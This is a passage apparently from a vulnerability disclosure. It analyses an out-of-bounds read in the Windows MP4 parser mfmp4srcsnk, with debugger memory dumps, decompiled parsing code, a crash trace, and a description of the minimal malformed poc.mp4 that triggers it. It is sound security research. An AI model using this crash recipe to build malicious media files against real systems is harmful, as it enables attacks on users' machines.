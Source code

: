 ```
00000201`04d11fa0  00000000`ffffffff
00000201`04d11fa8  00000000`00000000
00000201`04d11fb0  00000000`00000000
00000201`04d11fb8  00000000`020007d0
00000201`04d11fc0  00000000`00000000
00000201`04d11fc8  0000001c`00000001
00000201`04d11fd0  c0c0c0c0`0000001c    <-- Buffer size of 0x1c
00000201`04d11fd8  00000201`04d0ffe0    <-- Address of buffer, only holds 0x1c raw file bytes
0:000> db 00000201`04d0ffe0
00000201`04d0ffe0  00 00 00 1c 6d 6f 6f 76-00 00 00 00 74 72 61 6b  ....moov....trak
00000201`04d0fff0  00 00 00 00 74 6b 68 64-00 30 30 30 d0 d0 d0 d0  ....tkhd.000....
00000201`04d10000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
```

Data in `ppBuffer_copy` is then used for further parsing of atoms in `poc.mp4`. 

Eventually, at `CQTTrack::CreateChildAtom+0x1b8 (mfmp4srcsnk+000000000003AB88)`, when attempting to parse the `tkhd` atom, `CQTFullAtom::GetAtomContentsDataPtr` is called, which returns an invalid pointer to the end of the `0x1c` long buffer.

```c++
version = this->tkhdAtom->vtbl->CQTFullAtom::GetVersion(this->tkhdAtom);
vtbl = this->tkhdAtom->vtbl;
if ( !version ) {
  // Crash occurs here as version = 0x0
  atomDataPtr = *(vtbl->CQTFullAtom::GetAtomContentsDataPtr(this->tkhdAtom) + 8);
  trackID = _byteswap_ulong(atomDataPtr);
  this->tkhdAtom->trakID = trackID;
}

if ( version == 1 ) {
  // Crash would occur here if version = 0x1
  atomDataPtr = *(this->tkhdAtom->vtbl->CQTFullAtom::GetAtomContentsDataPtr(this->tkhdAtom) + 4);
}
```

This then causes the OOB read past the raw file bytes in the buffer, as seen below:

```
0:000> g
(3244.1374): Access violation - code c0000005 (first/second chance not available)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
mfmp4srcsnk!CQTTrack::CreateChildAtom+0x1d9:
00007ff9`5435aba9 8b4808          mov     ecx,dword ptr [rax+8] ds:00000201`04d10004=????????
0:000> db @rax
00000201`04d0fffc  d0 d0 d0 d0 ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ....????????????
0:000> db @rax-1c
00000201`04d0ffe0  00 00 00 1c 6d 6f 6f 76-00 00 00 00 74 72 61 6b  ....moov....trak
00000201`04d0fff0  00 00 00 00 74 6b 68 64-00 30 30 30 d0 d0 d0 d0  ....tkhd.000....
```

Additionally, a check exists at `CQTFullAtom::ValidateAtom+0x23b (mfmp4srcsnk+000000000002095B)`, which prevents the `moov` atom **size** field from being smaller than the position of the `tkhd` atom **version** field . Thus, `0x1c` is the smallest possible size for `poc.mp4`.
